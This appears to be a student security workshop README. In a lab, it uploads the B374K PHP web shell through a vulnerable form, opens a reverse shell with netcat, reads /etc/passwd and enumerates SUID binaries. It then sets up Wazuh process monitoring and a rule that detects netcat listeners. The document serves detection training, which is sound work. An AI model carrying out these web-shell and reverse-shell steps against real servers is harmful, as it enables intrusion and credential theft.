


<!--
pandoc README.md -o Toni_Peraira_Workshop_01_Web_Shell.pdf --from markdown --template eisvogel --listings --pdf-engine=xelatex
-->

# Workshop 1 - Web Shell

In this exercise we will try to execute a reverse shell in a server, in order to detect it with a Wazuh manager installed in another server.


```
Wazuh agent to attack
IP: 192.168.128.49
```

```
Wazuh Manager
IP: 192.168.128.80
```

On the victim machine there is a website with a form that we can exploit.

[http://192.168.128.49/workshop1/](http://192.168.128.49/workshop1/)

We know that the server uses PHP, so we will use a PHP exploit called B374K, a web shell download it from 
[https://github.com/backdoorhub/shell-backdoor-list](https://github.com/backdoorhub/shell-backdoor-list).

We have renamed the exploit to tonipm.php.


All uploaded files can be listed in
[http://192.168.128.49/workshop1/images/](http://192.168.128.49/workshop1/images/)



Using our exploit [http://192.168.128.49/workshop1/images/tonipm.php](http://192.168.128.49/workshop1/images/tonipm.php).




The first thing we will do is change our shell password.


In the exploit there is a screen called *rs* (Reverse Shell) with a list of shells to execute. We will use a PHP.


Press 'Go' and initialize reverse shell.


```
$ nc 192.168.128.49 13123
b374k shell : connected
/bin/sh: 0: can't access tty; job control turned off
/etc>pwd
/etc
/etc>cat passwd		
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
montilivi:x:1000:1000:montilivi:/home/montilivi:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
bind:x:114:119::/var/cache/bind:/usr/sbin/nologin
ossec:x:115:120::/var/ossec:/sbin/nologin
```

```
/etc>cat /var/www/html/workshop1/images/tonipm.php
<?php

$s_pass = "77a05418992b13fef4ca7b433cb7e33d084476af"; // default password : b374k (login and change to new password)

$s_ver = "2.8"; // shell ver
....
```

```
$ nc 192.168.128.49 13123
b374k shell : connected
/bin/sh: 0: can't access tty; job control turned off
/etc>whoami
www-data
/etc>
```

Find files with SUID (Set owner User ID) permission. This  is a special permission that applies to scripts or applications. If the SUID bit is set, when the command is run, it’s effective UID becomes that of the owner of the file, instead of the user running it.  

```
/etc>find /usr/bin -perm -u=s -type f
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/fusermount
/usr/bin/umount
/usr/bin/su
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/at
/usr/bin/sudo
```


If we check the list of process running in the vulnerable machine during the metasploit attack, we will see some suspicious processes:

```
/etc>ps -eo user,pid,cmd | grep www-data
www-data     864 /usr/sbin/apache2 -k start
www-data     865 /usr/sbin/apache2 -k start
www-data     866 /usr/sbin/apache2 -k start
www-data     867 /usr/sbin/apache2 -k start
www-data     868 /usr/sbin/apache2 -k start
www-data    2582 /usr/sbin/apache2 -k start
www-data    2583 /usr/sbin/apache2 -k start
www-data    3431 /usr/sbin/apache2 -k start
www-data    3432 /usr/sbin/apache2 -k start
www-data    3433 /usr/sbin/apache2 -k start
www-data    4521 sh -c export TERM=xterm;PS1='$PWD>';export PS1;/bin/sh -i
www-data    4522 /bin/sh -i
www-data    4523 sh -c export TERM=xterm;PS1='$PWD>';export PS1;/bin/sh -i
www-data    4524 /bin/sh -i
www-data    4563 sh -c export TERM=xterm;PS1='$PWD>';export PS1;/bin/sh -i
www-data    4564 /bin/sh -i
www-data    4565 sh -c export TERM=xterm;PS1='$PWD>';export PS1;/bin/sh -i
www-data    4566 /bin/sh -i
www-data    4954 ps -eo user,pid,cmd
www-data    4955 grep www-data
```

We can use netstat to get opened TCP connections, but there is no netstat installed in the server.

```
netstat -tnp
```

It can also be done with the command shown below.

```
/etc>grep -v "rem_address" /proc/net/tcp  | awk  '{x=strtonum("0x"substr($3,index($3,":")-2,2)); for (i=5; i>0; i-=2) x = x"."strtonum("0x"substr($3,i,2))}{print x":"strtonum("0x"substr($3,index($3,":")+1,4))}'
0.0.0.0:0
0.0.0.0:0
0.0.0.0:0
0.0.0.0:0
0.0.0.0:0
0.0.0.0:0
0.0.0.0:0
0.0.0.0:0
192.168.128.197:13123
192.168.128.90:60666
192.168.128.80:1514
```


Trying to detect reverse shell in Wazuh manager from [https://documentation.wazuh.com/current/proof-of-concept-guide/detect-unauthorized-processes-netcat.html](https://documentation.wazuh.com/current/proof-of-concept-guide/detect-unauthorized-processes-netcat.html)

Add the following configuration in the agent's */var/ossec/etc/ossec.conf*. Get a periodically list of running processes.

```xml
<ossec_config>
    <localfile>
        <log_format>full_command</log_format>
        <alias>process list</alias>
        <command>ps -e -o pid,uname,command</command>
        <frequency>30</frequency>
    </localfile>
</ossec_config>
```

Restart agent.

```
$ systemctl restart wazuh-agent
```

Install Netcat in the agent.

```
$ sudo apt install nmap-ncat
```

Add following rules to */var/ossec/etc/rules/local_rules.xml* at the Wazuh manager.

```xml
<group name="ossec,">
    <rule id="100050" level="0">
        <if_sid>530</if_sid>
        <match>^ossec: output: 'process list'</match>
        <description>List of running processes.</description>
        <group>process_monitor,</group>
    </rule>
    <rule id="100051" level="7" ignore="900">
        <if_sid>100050</if_sid>
        <match>nc -l</match>
        <description>Netcat listening for incoming connections.</description>
        <group>process_monitor,</group>
    </rule>
</group>
```

